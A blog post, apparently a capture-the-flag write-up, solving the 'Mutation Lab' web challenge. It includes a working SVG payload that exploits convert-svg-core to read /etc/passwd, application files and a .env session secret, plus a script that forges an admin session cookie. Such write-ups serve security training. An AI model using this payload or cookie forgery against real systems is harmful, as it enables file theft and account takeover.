 ```yaml
---
layout: post
title:  "HTB CTF - Mutation Lab writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


This was a "blind" web challenge, in that no source was provided.

After initially dismissing this challenge because it was "blind"
(no source code), I revisited it as the remaining challenges got harder.

The site greets you with a login portal where you can register a user.

<!-- more -->

![](https://i.postimg.cc/XJKRJKgQ/Pasted-image-20220518220842.png)

After creating a user and logging in, the main application allows you
to play with some cells and "tadpoles" and export them as images.

![](https://i.postimg.cc/FsHMrLkV/Pasted-image-20220518221051.png)

The bottom of the page shows the target

> Only lab admin is allowed to view the confidential records

Checking dev tools, to see what the requests to generate the images
looked like, revealed an application error. The generation of the "tadpoles"
image sent two requests, but one didn't contain any data:

```json
{"svg":null}
```

This request had a stack trace as the response:

```plain
TypeError: Cannot read properties of null (reading 'indexOf')  
    at Converter.[convert] (/app/node_modules/convert-svg-core/src/Converter.js:191:25)  
    at Converter.convert (/app/node_modules/convert-svg-core/src/Converter.js:114:40)  
    at API.convert (/app/node_modules/convert-svg-core/src/API.js:80:32)  
    at /app/routes/index.js:61:21
```

A quick web search to confirm this is an attack vector, and we see a directory
traversal vulnerability in `convert-svg-core`:
https://snyk.io/vuln/npm:convert-svg-core. Synk even provided a proof of concept snippet!

Writing some Python code to confirm the vulnerability:

```python
import webbrowser
import requests

REMOTE = "http://HOST:PORT"
PAYLOAD = """
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd"" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 0 0" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text></text>
</svg>
"""

res = requests.post(
    f"{REMOTE}/api/export",
    json={
        "svg": PAYLOAD
    })

image = f"{REMOTE}{res.json()['png']}"

print(image)
webbrowser.open_new_tab(image)
```

![](https://i.postimg.cc/90JsPWK9/Pasted-image-20220518222217.png)

For some time I was stuck. I tried `/flag`, `/flag.txt`, `/secret.txt`,
but no luck. I wasn't sure how I could extract any information without
knowing a little about the file structure.

After some searching, one site suggested `/proc/self/envion` to get
the current processes environment variables. It came up empty.

In my own shell I tried `/proc/self/<TAB>` and saw `cwd`! A way to
access the current process's working directory!

![](https://i.postimg.cc/kGnktV19/Pasted-image-20220518222651.png)

> 💭 (In hindsight, I had the original error message that told me
> exactly where the app was - but I like this way better)

```plain
/proc/self/cwd/index.js
/proc/self/cwd/routes/index.js
/proc/self/cwd/middleware/AuthMiddleware.js
```

These files told me a few things...

- It was an express app
- Logging in set the username on a "session"
- The session was [cookie-session](http://expressjs.com/en/resources/middleware/cookie-session.html)
- The `AuthMiddleware` only checked for the existence of a "username" property

The last piece of the puzzle was an environment variable "SESSION_SECRET_KEY",
which was conveniently loaded from `/app/.env`.

Knowing the secret key meant that I could generate my own session cookies with
any username I wanted.

But first, I suspected the admin username was just "admin", but I wanted to be
sure, so I sent a request to register a user with that name:

```python
import requests

REMOTE = "http://139.59.163.221:30651/api/register"

res = requests.post(REMOTE,
    json={
        "username": "admin",
        "password": "aaa",
    }
)

print(res.json())
# {'message': 'This UUID is already registered!'}
```

To generate the cookie, the best approach I could think was just starting an
express server that sets the cookie.

```js
var cookieSession = require('cookie-session')
var express = require('express')

var app = express()


app.use(cookieSession({
  name: 'session',
  keys: ['<SECRET>']
}))

app.get('/', function (req, res, next) {
  req.session.username = "admin"

  res.end("got 'em")
})

app.listen(3000)
```

I did some browser shuffling -> open http://localhost:3000 -> get the cookie
-> open dev tools -> manually change the cookie host to the target host ->
visit target site -> get logged in as admin!

![](https://i.postimg.cc/h4sFRrvG/Pasted-image-20220518224229.png)

